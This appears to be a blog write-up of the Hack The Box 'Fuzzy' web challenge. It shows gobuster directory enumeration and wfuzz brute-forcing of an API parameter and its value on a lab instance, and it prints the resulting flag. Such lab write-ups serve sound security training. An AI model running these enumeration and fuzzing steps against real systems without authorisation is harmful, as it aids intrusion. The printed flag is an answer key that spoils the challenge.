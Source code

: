 +++
title = "Fuzzy"
date = 2023-01-08T20:13:43+01:00
description = "Fuzzy"
+++

Fuzzy
<!--more-->

# Fuzzy

## Enumeration

We enumerate first using `gobuster`:

```
# gobuster dir -u http://docker.hackthebox.eu:32079 -w /usr/share/wordlists/dirb/big.txt -t 30
```

or

```
# gobuster -u http://docker.hackthebox.eu:32079/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm`
```

We find `/api`, let’s use `gobuster` again:

```
# gobuster -u http://docker.hackthebox.eu:32079/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm,js,md`
```

We found the `action.php`, if we visit `http://docker.hackthebox.eu:32079/api/action.php` we get `Error: Parameter not set`. It’s telling us that our GET request parameters aren’t the goods ones.

## Fuzzing

We use `wfuzz` to brute force the GET parameter:

```
# wfuzz --hh=24 -c -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:32079/api/action.php?FUZZ=test
```

-   hh (filter the length of characters in source code)
-   c (Output with colors)
-   w (Wordlist)
-   FUZZ (FUZZ keyword will be replaced by the word from the wordlist)

And get a valid parameters with reset, giving us `http://docker.hackthebox.eu:32079/api/action.php?reset=`

We now need to find the right value for the reset parameter:

```
# wfuzz --hh=27 -c -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:32079/api/action.php?reset=FUZZ
```

and we get `20` as valid parameter. visit `http://docker.hackthebox.eu:32079/api/action.php?reset=20` in order to get the flag `HTB{h0t_fuzz3r}`
